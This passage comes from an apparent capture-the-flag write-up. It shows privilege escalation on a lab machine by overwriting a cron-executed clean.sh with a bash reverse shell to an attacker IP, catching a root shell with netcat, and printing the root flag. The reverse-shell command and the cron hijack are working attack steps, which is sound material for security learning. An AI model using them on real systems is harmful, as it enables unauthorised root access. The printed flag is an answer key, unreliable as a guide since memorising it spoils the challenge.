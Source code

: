 Next, we have to add the reverse shell code to the `clean.sh` file.

```
www-data@dmv:/var/www/html/tmp$ echo "bash -i >& /dev/tcp/10.17.48.138/9998 0>&1" > clean.sh
echo "bash -i >& /dev/tcp/10.17.48.138/9998 0>&1" > clean.sh
```

After around a minute, when the system next executes the `/var/www/html/tmp/clean.sh` file, we will get our reverse shell with root privilege.

```
$ nc -nlvp 9998
listening on [any] 9998 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.162.57] 38570
bash: cannot set terminal process group (2098): Inappropriate ioctl for device
bash: no job control in this shell
root@dmv:/var/www/html/tmp# 
```

Let's `cat` out the root flag.

```
root@dmv:/# cat /root/root.txt
cat /root/root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
```

### Answer

```
flag{d9b368018e912b541a4eb68399c5e94a}
```
